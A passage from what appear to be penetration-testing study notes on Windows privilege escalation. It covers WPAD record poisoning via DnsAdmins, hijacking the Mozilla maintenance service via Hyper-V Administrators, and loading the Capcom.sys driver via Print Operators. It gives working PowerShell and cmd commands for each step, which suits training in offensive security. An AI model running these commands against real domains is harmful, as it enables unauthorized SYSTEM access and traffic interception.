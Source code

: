 ### Creating a WPAD Record

Another way to abuse DnsAdmins group privileges is by creating a WPAD record. Membership in this group gives us the rights to disable global query block security. To set up this attack, we first disabled the global query block list:
```console
C:\zeropio> Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName <COMPUTER NAME>
```

Next, we add a WPAD record pointing to our attack machine:
```console
C:\zeropio> Add-DnsServerResourceRecordA -Name wpad -ZoneName <DOMAIN> -ComputerName <COMPUTER NAME> -IPv4Address <OUR IP>
```

## Hyper-V Administrators 

The Hyper-V Administrators group has full access to all Hyper-V features. If Domain Controllers have been virtualized, then the virtualization admins should be considered Domain Admins. An example of this is Firefox, which installs the Mozilla Maintenance Service. We can update this [exploit](https://raw.githubusercontent.com/decoder-it/Hyper-V-admin-EOP/master/hyperv-eop.ps1) to grant our current user full permissions on the file below:
```
C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe
```

After running the PowerShell script, we should have full control of this file and can take ownership of it:
```console
C:\zeropio> takeown /F C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe
```

Next, we can replace this file with a malicious maintenanceservice.exe, start the maintenance service, and get command execution as SYSTEM:
```console
C:\zeropio> sc.exe start MozillaMaintenance
```

> This vector has been mitigated by the March 2020 Windows security updates
{: .prompt-info}

## Print Operators 

Print Operators is another highly privileged group, which grants its members the **SeLoadDriverPrivilege**, rights to manage, create, share, and delete printers. If we issue the command `whoami /priv`, and don't see the **SeLoadDriverPrivilege** from an unelevated context, we will need to bypass UAC.

It's well known that the driver **Capcom.sys** contains functionality to allow any user to execute shellcode with SYSTEM privileges. With [this](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) tool we can load the driver. Download it locally and edit it, pasting over the includes below:
```c
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```
